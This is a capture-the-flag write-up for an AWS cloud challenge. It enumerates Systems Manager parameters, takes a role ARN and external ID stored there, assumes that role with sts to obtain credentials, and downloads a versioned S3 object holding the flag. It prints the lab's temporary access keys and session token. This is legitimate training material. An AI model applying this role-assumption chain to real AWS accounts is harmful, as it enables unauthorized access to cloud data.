

---
tags:
  - ctf
  - aws
difficulty: easy
category: cloud
---
# Challenge

Lysa Harrowmere reaches the lower city ferry piers while Stormbound soldiers wait for the morning boat. They are supposed to cross the river and guard the east road before Vaultrune's next patrol moves through. The route board says the boat goes to the east road landing, but the crew roster sends it to a dock controlled by Vaultrune. If Lysa warns the soldiers openly, Vaultrune's men can claim she started a fight at the pier. If she confronts the ferry master, his guards can tear down the roster and post the correct one. Lysa has one job: find the earlier crossing list, prove who changed the dock, and get the soldiers onto the right boat before Vaultrune cuts the road.

## Solution

The environment is a docker container and provides and IP address with 2 ports

```ip
154.57.164.74:30304
```

```ip
154.57.164.74:31681
```

Takes me to a page that gives me information on the challenge, including creds



Using these creds I was able to get logged in to the AWS CLI and verify that I was the user it wanted me to be.

Using the hints of the Systems Manager being at `/ferry/crossing/` I used the AWS cli to interact with the systems manager and see what was there

```bash
aws ssm describe-parameters --parameter-filters "Key=Name,Option=BeginsWith,Values=/ferry/crossing/"
```

This returned a list of ferry crossings with one titled live-crossing-id, so I ran the following

```bash
aws ssm get-parameter --name "/ferry/crossing/live-crossing-id"
```

Which returned that the current crossing is /ferry/crossing/CROSSING-7A3F so I was able to run the following to get information on that

```bash
aws ssm get-parameter --name "/ferry/crossing/CROSSING-7A3F"
```

This returned some more user information that can allow me to assume a user role to access the documents

```output
{
    "Parameter": {
        "Name": "/ferry/crossing/CROSSING-7A3F",
        "Type": "String",
        "Value": "{\n  \"crossing_id\": \"CROSSING-7A3F\",\n  \"status\": \"AUTHORIZED\",\n  \"issuer\": \"stormbound-coalition-ferry-office\",\n  \"scanner_role_arn\": \"arn:aws:iam::584729103648:role/ferry-crossing-scanner\",\n  \"scanner_external_id\": \"ferry-crossing-scanner-7a3f\",\n  \"manifest_bucket\": \"ferry-crossing-manifest\",\n  \"manifest_object_key\": \"manifests/morning-crossing-order.txt\",\n  \"manifest_version_id\": \"a1db6a20-bea4-484f-a91e-7d8d67db90ec\",\n  \"record_type\": \"crossing_manifest\"\n}",
        "Version": 1,
        "LastModifiedDate": "2026-07-24T14:32:10.507000-05:00",
        "ARN": "arn:aws:ssm:us-east-1:584729103648:parameter/ferry/crossing/CROSSING-7A3F",
        "DataType": "text"
    }
}
```

With the role ARN and the external ID I can get credentials to use to assume the role of this user

```bash
aws sts assume-role \
  --role-arn arn:aws:iam::584729103648:role/ferry-crossing-scanner \
  --role-session-name ferry-session \
  --external-id ferry-crossing-scanner-7a3f
```

This returned the creds needed to assume the role of that user

```output
{
    "Credentials": {
        "AccessKeyId": "ASIAVGU7E8H89F3C3VRC",
        "SecretAccessKey": "MAuPK4TBa6lnRJQNDrZg0BvkmxBlZ4cgWRxtumXW",
        "SessionToken": "v9dI9uk6TmdmQuD7ywNywdT4dYDrXY2DN1eBx6iSWbbM095c4YvEXRlIRbJKo7XaLBe97agbBJzZOuvV2Vvw5BrNYYA9LMh7eyyIZImZ4WLNmxEAJ1KnNBqLQyZ7JKjcB59VhRrkH1RgHrdogjI6ZsH4yUecjmcwF416KoJXyIU5FzaDGC8HCHNSV6Mab7zNU1Z6t8U1",
        "Expiration": "2026-07-24T21:37:53.972001+00:00"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "AROAI5I4JM0UYH8LMQM3:ferry-session",
        "Arn": "arn:aws:sts::584729103648:assumed-role/ferry-crossing-scanner/ferry-session"
    },
    "PackedPolicySize": 0
}
```

Running the following set our current session to be this new role/user

```bash
export AWS_ENDPOINT_URL=http://154.57.164.74:30304
export AWS_DEFAULT_REGION=us-east-1
export AWS_ACCESS_KEY_ID=ASIAVGU7E8H89F3C3VRC
export AWS_SECRET_ACCESS_KEY=MAuPK4TBa6lnRJQNDrZg0BvkmxBlZ4cgWRxtumXW
export AWS_SESSION_TOKEN=v9dI9uk6TmdmQuD7ywNywdT4dYDrXY2DN1eBx6iSWbbM095c4YvEXRlIRbJKo7XaLBe97agbBJzZOuvV2Vvw5BrNYYA9LMh7eyyIZImZ4WLNmxEAJ1KnNBqLQyZ7JKjcB59VhRrkH1RgHrdogjI6ZsH4yUecjmcwF416KoJXyIU5FzaDGC8HCHNSV6Mab7zNU1Z6t8U1
```

Now we can try and get the document/manifest that was referenced before

```bash
aws s3api get-object \                                                                                                                                                                                                           
  --bucket ferry-crossing-manifest \
  --key manifests/morning-crossing-order.txt \
  --version-id a1db6a20-bea4-484f-a91e-7d8d67db90ec \
  --region us-east-1 \
  ./current-manifest.txt
```

This returned the needed information and now the current-manifest.txt should be in our working directory

```bash
cat current-manifest.txt
```

```output
CROSSING RELEASE RECORD
Batch: CROSSING-7A3F
Authorized by: Stormbound Coalition Ferry Office
HTB{ferry_crossing_dock_seal_42fa8a90581600fe0184503ef5089eee}
```

And here is the flag
